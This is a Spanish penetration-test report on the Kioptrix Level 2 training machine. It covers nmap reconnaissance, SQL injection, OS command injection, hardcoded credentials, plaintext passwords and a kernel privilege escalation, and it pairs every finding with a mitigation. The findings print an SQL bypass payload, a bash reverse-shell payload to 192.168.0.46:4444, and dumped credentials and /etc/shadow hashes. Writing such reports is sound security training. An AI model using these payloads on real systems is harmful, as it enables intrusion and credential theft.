




## Ámbito y alcance
Este informe documenta los hallazgos identificados durante la ejecución de una prueba de penetración sobre la máquina Kioptrix Level 2 (Kioptrix 1.1), un sistema deliberadamente vulnerable con fines formativos, desplegado en un entorno de laboratorio local controlado.
El ejercicio se llevó a cabo bajo un enfoque de caja negra, sin credenciales ni información previa sobre la configuración interna del sistema, con el objetivo de simular un escenario de ataque externo realista. La evaluación se centró exclusivamente en la identificación, análisis y explotación de vulnerabilidades presentes en la superficie expuesta del sistema.
El alcance del test se limitó estrictamente a la máquina objetivo dentro del entorno aislado de laboratorio, excluyendo:
- Ataques de denegación de servicio (DoS)
- Técnicas de ingeniería social
- Evaluaciones de cumplimiento normativo
- Pivoting hacia otros sistemas no contemplados en el laboratorio
El propósito del ejercicio fue aplicar una metodología estructurada de enumeración, explotación y post-explotación básica, replicando los procedimientos técnicos empleados en un test de penetración profesional.

## Metodología de calificación de riesgos
La severidad de las vulnerabilidades identificadas se ha evaluado utilizando el estándar Common Vulnerability Scoring System (CVSS) v3.1, un marco de referencia ampliamente adoptado para la cuantificación técnica del riesgo asociado a vulnerabilidades de seguridad.
La puntuación CVSS base permite estimar la explotabilidad y el impacto potencial de cada vulnerabilidad en términos de confidencialidad, integridad y disponibilidad.
Adicionalmente, en aquellos casos en los que la explotación práctica haya demostrado un impacto superior al estimado por la puntuación base, se reflejará el impacto real observado durante el test de penetración.
Las vulnerabilidades se clasifican en los siguientes niveles de severidad:
- Crítico (9.0 – 10.0)
- Alto (7.0 – 8.9)
- Medio (4.0 – 6.9)
-  Bajo (0.1 – 3.9)
Esta clasificación facilita la priorización de medidas correctivas y la toma de decisiones orientadas a la mitigación del riesgo.

## Resumen ejecutivo
Durante la realización de la prueba de penetración sobre la máquina **Kioptrix Level 2**, desplegada en un entorno controlado de laboratorio, se identificaron múltiples vulnerabilidades críticas que permitieron comprometer completamente el sistema evaluado.
El ejercicio, llevado a cabo bajo un enfoque de caja negra, simuló el comportamiento de un atacante externo sin conocimiento previo del sistema. A través de técnicas estándar de enumeración y explotación, fue posible:
- Bypassear mecanismos de autenticación.
- Ejecutar comandos arbitrarios en el servidor web.
- Acceder a credenciales almacenadas en el código fuente.
- Obtener acceso completo a la base de datos.
- Escalar privilegios hasta alcanzar permisos de _root_ en el sistema operativo.
La cadena de explotación demostró cómo vulnerabilidades aparentemente independientes pueden combinarse para producir un compromiso total del activo. El hallazgo más crítico fue una vulnerabilidad de escalada local de privilegios en el kernel de Linux, que permitió la toma de control absoluto del sistema tras una intrusión inicial.
Desde una perspectiva de riesgo, en un entorno productivo este escenario implicaría:
- Compromiso total de la confidencialidad, integridad y disponibilidad.
- Posible exfiltración de datos sensibles.
- Instalación de persistencia o puertas traseras.
- Movimiento lateral hacia otros sistemas de la red.

El ejercicio pone de manifiesto la importancia de aplicar principios fundamentales de seguridad, como validación de entradas, gestión segura de credenciales, almacenamiento robusto de contraseñas y políticas efectivas de actualización y parcheo de componentes.
## Fase de reconocimiento y recopilación de información
En primer lugar se llevó a cabo una fase de recopilación de información. El objetivo de esta fase es identificar la superficie de ataque inicial de la máquina en este caso, para posteriormente proceder a un análisis de los principales vectores de entrada por los que la máquina podría ser vulnerada.
Utilizando la herramienta *nmap* se realizó un escaneo completo de puertos para identificar todos los servicios expuestos. Este fue realizado con una configuración relativamente sigilosa, emulando lo que podría hacer en un posible atacante para sortear los posibles mecanismos de seguridad del sistema, pero de una manera balanceada para que no repercutiese en exceso a la velocidad de la prueba, al tratarse de un entorno de laboratorio.

```
nmap -p- -n -sS -Pn -vvv --min-rate 5000 --open -oN target 192.168.0.38
```

Una vez detectados los puertos abiertos se procedió a escanear las versiones de los servicios:

```
nmap -p22,80,111,443,631,3306 -sSV 192.168.0.38
```

Este escaneo nos brindó los siguientes resultados:

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64	OpenSSH 3.9p1
80/tcp   open  http    syn-ack ttl 64	Apache httpd 2.0.52
111/tcp  open  rpcbind syn-ack ttl 64	2 (RPC #100000)
443/tcp  open  https   syn-ack ttl 64	Apache httpd 2.0.52
631/tcp  open  ipp     syn-ack ttl 64 	CUPS 1.1
3306/tcp open  mysql   syn-ack ttl 64	MySQL (unauthorized)
```

De los diferentes servicios que corren en esta máquina, el servicio Apache y el de MySQL nos permiten intuir que se trata de un servidor web, así que usaremos esta vía como principal línea de investigación.

Desde un navegador accedemos a la IP de la máquina y encontramos un sitio web desplegado sobre el servicio apache, en cuya página principal encontramos un panel de login.



Con la herramienta ``whatweb`` obtenemos información sobre la página y nos ofrece los siguientes resultados (obtenemos la misma información en los puertos 80 y 443): 

```
Apache[2.0.52], Country[RESERVED][ZZ], HTTPServer[CentOS][Apache/2.0.52 (CentOS)], IP[192.168.0.38], PHP[4.3.9], PasswordField[psw], X-Powered-By[PHP/4.3.9]  
```

## Hallazgos
### SQL Injection (CW-89)
#### Puntuación
5.3 (Medium) CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N

#### Descripción
Con un payload sencillo comprobamos que el panel de identificación es susceptible a inyección SQL. 


Si observamos el código del archivo index.php que obtendremos con posteriores explotaciones de vulnerabilidades, vemos que la consulta que permite la identificación del usuario encadena los parámetros recibidos por el formulario sin sanitizar previamente:
```
$username = $_POST['uname'];
$password = $_POST['psw'];
$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
```

De esta manera, vemos que, con el payload introducido, la consulta quedaría tal que:
`$query = "SELECT * FROM users WHERE username = 'admin' or '1' = '1' AND password='password'";`

Esta consulta evalúa como verdadera siempre que exista un usuario *admin* o un registro de contraseña para algún usuario con la palabra *password*.
Se realizaron pruebas adicionales orientadas a determinar la posibilidad de exfiltración de información y modificación de registros, pero no se obtuvo evidencia de explotación adicional más allá del bypass de autenticación.
#### Impacto
Esta vulnerabilidad permite el bypass de autenticación, acceso no autorizado a funcionalidades internas, y la posibilidad de encadenamiento con otras vulnerabilidades. Además, aunque durante la realización de esta prueba no se pudo explotar, no puede garantizarse que determinados payloads no permitan la modificación o eliminación de registros en la base de datos.

#### Propuesta de mitigación
Para prevenir eficazmente las vulnerabilidades de inyección SQL, la principal medida de mitigación es la implementación de **consultas parametrizadas (prepared statements)** o **procedimientos almacenados seguros**. Estas técnicas garantizan que las entradas del usuario se traten estrictamente como datos, no como código ejecutable, separando así las instrucciones SQL de los parámetros proporcionados por el usuario. Como defensa complementaria y en profundidad, se recomienda aplicar **validación de entradas mediante listas permitidas (allow-list)** y otorgar a las cuentas de la aplicación únicamente los **privilegios mínimos indispensables** en la base de datos, reduciendo así el impacto potencial de un ataque exitoso.
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

### OS Command Injection (CWE-78)
#### Puntuación
8.8 (High) CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
#### Descripción
Tras ejecutar el bypass de autenticación, encontramos un endpoint que muestra los resultados de la ejecución del comando ping a la IP introducida en el campo de texto del formulario.
Encadenando una dirección con comandos de shell mediante un operador como *;* o *&&* conseguimos la ejecución de estos comandos.




Mediante el siguiente *payload* conseguimos crear una reverse shell:
```
8.8.8.8 &&  bash -c '0<&217-;exec 217<>/dev/tcp/192.168.0.46/4444;sh <&217 >&217 2>&217'
```

Como podemos observar analizando el archivo `pingit.php`, la causa raíz de esta vulnerabilidad es el uso del comando shell_exec() sin sanitización:

```
<?php

print $_POST['ip'];
if (isset($_POST['submit'])){
        $target = $_REQUEST[ 'ip' ];
        echo '<pre>';
        echo shell_exec( 'ping -c 3 ' . $target );
        echo '</pre>';
    }
?>

```

#### POC
Mediante la explotación de esta vulnerabilidad conseguimos obtener información del sistema de una forma muy sencilla:

`8.8.8.8 && uname -a
`Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux`

`8.8.8.8 && id
`uid=48(apache) gid=48(apache) groups=48(apache)`

Aunque los comandos se ejecutan desde el usuario `apache` con privilegios limitados, podemos acceder al archivo `/etc/passwd`, lo que nos permite enumerar los usuarios del sistema:

```
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
```

#### Impacto
La explotación de esta vulnerabilidad permite al atacante ejecutar comandos arbitrarios en el servidor web como el usuario `apache`. Esto puede derivar en:
- Exfiltración de archivos sensibles (confidencialidad comprometida).
- Modificación de archivos de la aplicación web o configuración del sistema (integridad comprometida).
- Posible interrupción del servicio mediante ejecución de procesos o eliminación de archivos críticos (disponibilidad afectada).
Además, la vulnerabilidad puede encadenarse con otros hallazgos, aumentando significativamente el riesgo global del sistema.
#### Propuesta de mitigación
Se propone tomar las siguientes medidas:
- Evitar el uso de `shell_exec` con entradas de usuario; se debe recurrir a librerías nativas del lenguaje, en este caso PHP que implemente la funcionalidad de ping. 
- Validación y sanitización estricta de la entrada: Verificar que la entrada proporcionada en el campo ip sea una dirección IPv4 o IPv6 válida, o un nombre de dominio que cumpla estrictamente con el formato estándar. Cualquier carácter que no forme parte de estos formatos (como `;`, `&`, `|`, `$`, `` ` ``, etc.) debe hacer que la solicitud sea rechazada automáticamente.

### Hardcoded Credentials (CW-798)
#### Puntuación
7.9 (High) CVSS:3.0/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

#### Descripción
Tras la explotación de la vulnerabilidad OS Command Injection, con permisos de usuario `apache`, conseguimos examinar el archivo `index.php` del servicio web desplegado, que muestra las credenciales de acceso a la base de datos embebidas directamente en texto plano.

```
<?php
        mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
        //print "Connected to MySQL<br />";
        mysql_select_db("webapp");

        if ($_POST['uname'] != ""){
                $username = $_POST['uname'];
                $password = $_POST['psw'];
                $query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
                //print $query."<br>";
                $result = mysql_query($query);

                $row = mysql_fetch_array($result);
                //print "ID: ".$row['id']."<br />";
        }

?>
```

#### Impacto
Un atacante con capacidad de lectura del código fuente (obtenida mediante la vulnerabilidad de OS Command Injection u otros métodos alternativos) puede obtener acceso no autorizado a la base de datos, comprometiendo la confidencialidad, integridad y disponibilidad de los datos almacenados.
#### POC
Utilizando esos credenciales conseguimos acceder a las bases de datos, tablas e información de los usuarios registrados:

```
+----------+
| Database |
+----------+
| mysql    |
| test     |
| webapp   |
+----------

mysql> show tables;
+------------------+
| Tables_in_webapp |
+------------------+
| users            |
+------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+------+----------+------------+
| id   | username | password   |
+------+----------+------------+
|    1 | admin    | 5afac8d85f |
|    2 | john     | 66lajGGbla |
+------+----------+------------+
2 rows in set (0.00 sec)
```

#### Propuesta de mitigación
Para prevenir los riesgos comentados anteriormente se recomienda la implementación de una solución centralizada de gestión de secretos. En lugar de incrustar credenciales estáticas en el código fuente, la organización debe adoptar un sistema que permita almacenar, proveer y auditar de forma segura las credenciales de la base de datos. La práctica fundamental es automatizar el ciclo de vida de estos secretos, idealmente mediante el uso de credenciales dinámicas que se generan bajo demanda y expiran tras cada sesión de la aplicación, o mediante la rotación automática de credenciales estáticas. Esto elimina la necesidad de que los desarrolladores conozcan o manipulen directamente las credenciales de producción.
 Como capa adicional de seguridad, las aplicaciones deberían manejar las credenciales en memoria utilizando estructuras de datos mutables que puedan ser sobrescritas inmediatamente después de su uso, minimizando la ventana de exposición.
https://cheatsheetseries.owasp.org/cheatsheets/Secrets_Management_Cheat_Sheet.html

### Almacenamiento de contraseñas en texto claro (CWE-312)
#### Puntuación
5.5 (Medium) CVSS:3.0/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N
#### Descripción
Mediante la explotación de otras vulnerabilidades, se ganó acceso a la base de datos MySQL. Allí se comprobó que los credenciales de autenticación  guardados en la base de datos `web` en la tabla `users` se guardaban en texto plano.
Las contraseñas no presentan evidencia de:
- Hash criptográfico
- Uso de salt
- Algoritmo de derivación de clave
Esto implica que cualquier acceso no autorizado a la base de datos expone directamente las credenciales reales de los usuarios.
#### Impacto
Cualquier usuario con acceso a la base de datos podría ver los credenciales de los usuarios, comprometiendo la confidencialidad de la información, y poniendo potencialmente en compromiso cuentas administrativas. Existe un riesgo elevado de reutilización de credenciales en otros servicios. Combinado con otras vulnerabilidades, estas credenciales posiblemente podrían permitir acceso a otros sistemas o servicios conectados, además de permitir persistencia tras la explotación inicial.
#### POC

```
+------+----------+------------+
| id   | username | password   |
+------+----------+------------+
|    1 | admin    | 5afac8d85f |
|    2 | john     | 66lajGGbla |
+------+----------+------------+
```
#### Propuesta de mitigación
Se recomienda la implementación de almacenamiento seguro de contraseñas mediante hashing. Cabe destacar que las funciones criptográficas rápidas de hash no protege adecuadamente las contrasñeas almacenadas contra ataques de *rainbow table*, por lo que se recomienda el uso de funciones de hashing específicos como *bcrypt*, *scrypt* o *Argon2*.  

https://owasp.org/www-community/vulnerabilities/Password_Plaintext_Storage

### Local Privilege Escalation en Kernel de Linux (CVE-2009-2698)
#### Puntuación
7.8 (High) CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

#### Descripción
La función udp_sendmsg en la implementación de UDP en (1) net/ipv4/udp.c y (2) net/ipv6/udp.c en el kernel de Linux anterior a la versión 2.6.19 permite a usuarios locales obtener privilegios o provocar una denegación de servicio (desreferencia de puntero NULL y caída del sistema) mediante vectores que involucran el indicador MSG_MORE y un socket UDP. Se trata de una vulnerabilidad conocida y documentada (https://nvd.nist.gov/vuln/detail/CVE-2009-2698).

Mediante la explotación de las vulnerabilidades anteriormente mencionadas, y la descarga, compilación y ejecución del exploit con EDB-ID 9542 en la máquina víctima, se logró la obtención de permisos de *root* en la misma.
#### POC

```
sh-3.00# whoami
root
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
```

Ahora en el archivo `/etc/shadow` obtenemos las contraseñas hasheadas:
```
john:$1$wk7kHI5I$2kNTw6ncQQCecJ.5b8xTL1:14525:0:99999:7:::
harold:$1$7d.sVxgm$3MYWsHDv0F/LP.mjL9lp/1:14529:0:99999:7:::
root:$1$FTpMLT88$VdzDQTTcksukSKMLRSVlc.:14529:0:99999:7:::
```
#### Impacto
La explotación de esta vulnerabilidad permite a un usuario con acceso local obtener privilegios de _root_, comprometiendo completamente el sistema afectado.
El impacto incluye:
- Compromiso total de la confidencialidad, integridad y disponibilidad del sistema.
- Acceso a información sensible del sistema, incluyendo `/etc/shadow`, claves privadas, tokens y datos de aplicaciones.
- Instalación de puertas traseras o mecanismos de persistencia.
- Manipulación o eliminación de registros para ocultar actividad maliciosa.
- Movimiento lateral hacia otros sistemas accesibles desde el host comprometido.
- Desactivación de controles de seguridad locales (firewall, auditoría, mecanismos de monitorización).
Dado que esta vulnerabilidad afecta al kernel (Ring 0), el atacante obtiene el máximo nivel de privilegio posible en el sistema, eliminando cualquier restricción impuesta por el modelo de permisos del sistema operativo.
En un entorno productivo, este escenario equivale a un compromiso total del activo afectado.

#### Propuesta de mitigación
Se recomienda aplicar las siguientes medidas:
- Actualizar inmediatamente el kernel a una versión no vulnerable (≥ 2.6.19 o versión soportada por el proveedor).
- Implementar una política formal de gestión de parches que garantice la aplicación periódica de actualizaciones de seguridad del sistema operativo.
- Eliminar o deshabilitar servicios y cuentas innecesarias que permitan acceso local al sistema.
- Aplicar el principio de mínimo privilegio para reducir la superficie de ataque en caso de compromiso inicial.
- Implementar mecanismos de detección de escaladas de privilegio (por ejemplo, auditd, sistemas EDR, etc.).

## Conclusiones
La evaluación realizada demuestra que la máquina analizada presenta múltiples debilidades estructurales en distintas capas del sistema: aplicación web, gestión de credenciales, configuración de servicios y sistema operativo.
La explotación exitosa se basó en una cadena progresiva de vulnerabilidades:
1. Inyección SQL que permitió el bypass de autenticación.
2. Inyección de comandos del sistema que otorgó ejecución remota.
3. Exposición de credenciales en el código fuente.
4. Acceso completo a la base de datos.
5. Escalada de privilegios a nivel de kernel hasta obtener control total.
Este encadenamiento evidencia que la seguridad debe abordarse de manera integral. La presencia simultánea de:
- Validación insuficiente de entradas,
- Gestión insegura de secretos,
- Almacenamiento inadecuado de contraseñas,
- Ausencia de parches críticos del sistema operativo, 
multiplica exponencialmente el impacto potencial de un ataque.
Aunque el entorno evaluado es deliberadamente vulnerable con fines formativos, las técnicas empleadas y los vectores explotados son representativos de ataques reales observados en entornos productivos.
Se recomienda implementar un enfoque de defensa en profundidad que incluya:
- Desarrollo seguro desde el diseño (Secure SDLC).
- Principio de mínimo privilegio.
- Gestión centralizada de secretos.
- Actualización periódica y automatizada de parches.
- Monitorización activa y detección de comportamientos anómalos.
En un escenario real, las vulnerabilidades identificadas habrían permitido a un atacante externo comprometer completamente el activo evaluado, con impacto potencial severo para la organización.